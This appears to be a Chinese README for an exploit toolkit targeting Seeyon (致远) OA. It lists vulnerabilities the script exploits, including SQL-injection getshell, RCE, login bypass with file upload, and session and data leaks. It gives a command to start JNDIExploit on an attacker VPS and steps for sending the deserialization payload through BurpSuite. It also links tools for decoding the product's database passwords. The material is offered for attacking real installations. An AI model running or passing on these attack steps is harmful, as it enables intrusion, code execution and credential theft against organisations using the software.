 # 致远OA综合漏洞利用脚本

覆盖漏洞

```
致远OA_A6_createMysql_数据库敏感信息泄露
致远OA_A6_DownExcelBeanServlet_用户敏感信息下载
致远OA_A6_initDataAssess_用户敏感信息泄露
致远OA_A6_setextno_SQL注入Getshell
致远OA_A6_test_SQL注入Getshell
致远OA_A8_htmlofficeservlet_RCE
致远OA_getSessionList_Session泄漏
致远OA_ajax_登录绕过_任意文件上传
致远OA_webmail_任意文件下载
致远OA_Session泄露_任意文件上传
致远OA_Fastjson_反序列化
```

其中致远OA_Fastjson_反序列化漏洞没有实现自动化，可利用工具：[JNDIExploit](https://github.com/feihong-cs/JNDIExploit)

```bash
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i 0.0.0.0 -l 1389 -p 1289
```

先在vps运行以上JNDI反序列化漏洞利用工具，然后复制脚本提供的Payload，替换ldap链接到BurpSuite中发包测试发包，可回显。

最后推荐一个关于致远OA数据库密码解码及相关笔记的项目：

https://github.com/jas502n/OA-Seeyou

参考：

http://wiki.peiqi.tech/

https://wiki.0-sec.org/

https://github.com/Summer177/seeyon_exp